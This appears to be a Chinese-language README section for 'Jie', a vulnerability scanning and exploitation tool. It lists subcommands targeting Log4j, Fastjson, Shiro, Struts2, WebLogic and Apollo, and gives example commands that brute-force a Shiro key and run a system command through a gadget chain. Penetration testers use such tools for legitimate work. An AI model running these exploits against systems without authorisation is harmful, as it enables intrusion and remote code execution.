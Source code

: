 ## 漏洞利用(还在开发中，优先级低)

**目前还在开发，帮助信息我自己都要看代码才能知道，等搞完了在写详细的**。

因大部分漏洞的利用工具使用 java 编写，并且支持的java 版本不同，搞环境太费劲，恶心坏了，所以重新定义了Jie。

Jie: 一款全面而强大的漏洞`扫描`和`利用`工具。

目前版本(1.0.0)支持以下漏洞的利用

```shell
A Powerful security assessment and utilization tools

Usage:
  Jie [command]

Available Commands:
  apollo      apollo scan && exp
  fastjson    fastjson scan && exp
  help        Help about any command
  log4j       log4j scan && exp
  other       other scan && exp bb:BasicBrute、swagger:Swagger、nat:NginxAliasTraversal、dir:dir)
  s2          Struts2 scan && exp
  shiro       Shiro scan && exp
  web         Run a web scan task
  weblogic    WebLogic scan && exp

Flags:
      --debug           debug
  -f, --file string     target file
  -h, --help            help for Jie
  -o, --out string      output report file(eg:vulnerability_report.html)
      --proxy string    proxy, (example: --proxy http://127.0.0.1:8080)
  -t, --target string   target

Use "Jie [command] --help" for more information about a command.
```

比如 Shiro key 漏洞利用

```bash
# 不指定-m 默认为爆破秘钥和利用链
Jie shiro -t http://127.0.0.1

# 利用
Jie Shiro -t http://127.0.0.1 -m exp -k 213123 -g CCK2 -e spring -km CBC --cmd whoami
```

其中借鉴缝合了很多师傅的工具，对应的漏洞扫描和利用中有写，如有遗漏，可以联系我，添加上
后续会缝合支持更多的漏洞利用。

https://jie.fireline.fun/

## 参考
